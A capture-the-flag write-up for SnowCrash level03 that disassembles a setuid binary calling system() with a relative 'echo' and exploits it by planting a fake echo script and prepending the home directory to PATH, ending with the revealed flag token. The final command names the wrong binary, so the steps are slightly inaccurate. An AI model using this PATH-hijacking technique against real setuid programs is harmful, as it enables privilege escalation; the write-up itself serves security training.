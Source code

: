 # level03

## Recognition

There is an executable named level03 that is suid and sgid on flag03 at the home directory of level03.

Using `readelf` we can see the `.rodata` section of the program and and dump its content.

```bash
level03@SnowCrash:~$ readelf -x .rodata level03

Hex dump of section '.rodata':
  0x080485d8 03000000 01000200 2f757372 2f62696e ......../usr/bin
  0x080485e8 2f656e76 20656368 6f204578 706c6f69 /env echo Exploi
  0x080485f8 74206d65 00                         t me.
```

We can also use `objdump` to disassemble it and see what is happening in the main function. 
```bash
level03@SnowCrash:~$ objdump -M intel -D level03
[...]
080484a4 <main>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	83 e4 f0             	and    esp,0xfffffff0
 80484aa:	83 ec 20             	sub    esp,0x20
 80484ad:	e8 ee fe ff ff       	call   80483a0 <getegid@plt>
 80484b2:	89 44 24 18          	mov    DWORD PTR [esp+0x18],eax
 80484b6:	e8 d5 fe ff ff       	call   8048390 <geteuid@plt>
 80484bb:	89 44 24 1c          	mov    DWORD PTR [esp+0x1c],eax
 80484bf:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484c3:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484c7:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484cb:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80484cf:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484d3:	89 04 24             	mov    DWORD PTR [esp],eax
 80484d6:	e8 05 ff ff ff       	call   80483e0 <setresgid@plt>
 80484db:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484df:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484e3:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484e7:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80484eb:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484ef:	89 04 24             	mov    DWORD PTR [esp],eax
 80484f2:	e8 89 fe ff ff       	call   8048380 <setresuid@plt>
 80484f7:	c7 04 24 e0 85 04 08 	mov    DWORD PTR [esp],0x80485e0
 80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
 8048503:	c9                   	leave
[...]
```

We can see that this program will unconditionally always execute the `system()` call, with the string previously seen on the .rodata section.

</br>
</br>

## Exploitation

Since we know that the program is executing `system("/usr/bin/env echo Exploit me.")`, we can see that it uses the `echo` program without a absolte path reference to it. We can then try to write a bash script executing the `getflag` command

```bash
level03@SnowCrash:~$ chmod +rwx .
level03@SnowCrash:~$ cat << EOF > echo
#!/bin/bash
getflag
EOF
```

The `system` call will run the command with bash thus it will use the $PATH variable to find the programs to execute. As we have compiled a program named `echo` in our home directory, we can then modiffy the $PATH variable to add the path of the home before the other pathes.
```bash
level03@SnowCrash:~$ export PATH=$HOME:$PATH
```

Now we only have to run the program and get the flag
```bash
level03@SnowCrash:~$ ./level13
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```